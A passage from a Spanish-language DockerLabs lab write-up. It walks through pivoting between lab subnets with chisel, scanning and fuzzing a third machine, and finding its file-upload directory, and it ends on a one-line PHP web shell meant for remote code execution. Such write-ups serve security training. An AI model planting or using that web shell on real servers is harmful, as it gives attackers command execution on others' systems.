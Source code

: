 ![conectando interfaz tres con nuestra máquina redirigiendo con socat](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/ca1b3439-2a4e-4c41-8726-af0ab2b5de0d)

Vemos que se nos ha conectado correctamente, por lo que si nos fijamos en nuestro servidor principal de *chisel*, observaremos que se nos ha abierto otro puerto (el indicando anteriormente) para las comunicaciones entre la **30.30.30.0/24** y la **10.10.10.0/24**.

![chisel principal server puerto 1111](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/0be3cac0-6bde-41e5-9d86-979cd3f901a6)

## Enumeración de la tercera máquina

En este momento, si realizamos un escaneo en busca de los puertos abiertos de la máquina *30.30.30.2*, veremos que podemos llegar hasta ella.

![primer nmap tercera interfaz](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/e7fb06bf-6546-442d-8d39-4d23a58927b3)

Seguidamente, lanzaremos unos scripts de enumeración y detectaremos la versión y servicios para estos puertos abiertos.

![segundo nmap tercera interfaz](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/a1694ab0-92fa-41cd-b127-cbe5b272d2d6)

Vamos a ver lo que hay en la web. Como anteriormente hicimos, tendremos que crear un nuevo proxy en *FoxyProxy*. Esta vez, las opciones son las siguientes.

![proxy foxyproxy tercera interfaz](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/e9ca072c-ab34-4066-9175-ffda98730709)

Con esto configurado y seleccionado en la lista de proxies, accederemos a la URL `http://30.30.30.3`.

![página principal tercera interfaz](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/34ca5ce7-ff93-43cd-9230-083cca46e626)

Parece ser que podemos subir un fichero, sin embargo no sabemos donde se sube. Vamos a probar si subiendo cualquier imagen nos dice donde se ha subido.

![subiendo imagen](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/7a296ebf-4c49-4526-b045-5da20a2417f9)

No parece decirnos nada, vamos a probar a fuzzear con `gobuster`.

![fuzzing gobuster tercera interfaz](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/4df8cd09-ea4c-41bf-826e-7256a2704ba7)

Hemos encontrado este directorio donde puede que se suban los ficheros. Si nos dirigimos a él, encontramos que efectivamente es el directorio de subida de ficheros.

![directorio de uploads](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/3f40a173-0166-42ae-8627-eca5c1d973f1)

## Explotación de la tercera máquina (Abusing File Upload - RCE)

Viendo que la página interpreta **PHP**, probaré a subir un fichero con código PHP malicioso.

```
<?php system($_GET['cmd']); ?>
```
